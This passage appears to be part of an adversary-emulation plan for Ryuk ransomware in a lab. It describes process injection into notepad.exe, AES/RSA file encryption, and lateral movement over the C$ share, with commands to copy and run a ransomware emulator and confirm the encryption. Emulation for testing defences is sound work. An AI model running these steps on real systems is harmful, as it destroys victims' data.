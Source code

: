 Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.

From the remote process, Ryuk will encrypt files on wizard/10.0.0.4's C:\Users\Public directory (recursive).

Next, Ryuk encrypts files on Toto/10.0.0.8 at \\C$\Users\Public (mounted on wizard as Z:).

Ryuk uses a symmetric key algorithm, AES256 to encrypt files.

Note that the symmetric key is itself encrypted with RSA2048.

*Note: early versions of our Ryuk emulation encrypted the entire filesystem; however, this proces took hours, rather than minutes, so we scaled it back due to time constraints.*

---

### ☣️ Procedures

```bash
# Ryuk has attempted to adjust its token privileges to have the SeDebugPrivilege.[11]

# Ryuk has called CreateToolhelp32Snapshot to enumerate all running processes.[1]

# Ryuk has injected itself into remote processes to encrypt files using a combination of VirtualAlloc, WriteProcessMemory, and CreateRemoteThread.[1]

# Ryuk has used a combination of symmetric (AES) and asymmetric (RSA) encryption to encrypt files. Files have been encrypted with their own AES key and given a file extension of .RYK. Encrypted directories have had a ransom note of RyukReadMe.txt written to the directory.[1]

# Ryuk has used the C$ network share for lateral movement.[5]

# Ryuk has called GetIpNetTable in attempt to identify all mounted drives and hosts that have Address Resolution Protocol (ARP) entries.[1][5]
```

```
copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe
```

```bash
C:\Windows\System32\notepad.exe
```

```bash
C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe
```

To confirm that encryption worked, execute the following in CMD:

```bash
# confirm files are encrypted (local)
type C:\Users\Public\Documents\Whitepaper_ekFUNt.rtf

# confirm encryption (remote)
type \\toto\C$\Users\Public\Documents\Whitepaper_ekFUNt.rtf
```
